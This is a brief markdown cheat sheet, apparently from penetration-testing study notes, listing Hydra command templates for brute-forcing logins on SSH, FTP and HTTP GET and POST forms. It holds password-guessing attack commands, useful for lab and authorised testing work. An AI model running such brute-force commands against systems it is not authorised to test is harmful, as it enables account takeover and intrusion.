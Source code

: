 ## Hydra

### SSH
```
hydra -l <username> -P <wordlist> <ip_addr> -t 4 ssh
```

### FTP
```
hydra -L logins.txt -P passwords.txt ftp://192.168.100.1
hydra -l user -P passwords.txt 192.168.100.1 ftp
```

### HTTP POST Form
```
hydra -l <username> -P <wordlist> <ip_addr> http-post-form "<path>:<login_credentials>:<invalid_response>" -v
-v #verbose
```

### HTTP GET Form
```
hydra -l <username> -P <wordlist> <ip_addr> http-get-form "<path>:<login_credentials>:<invalid_response>" -v
```


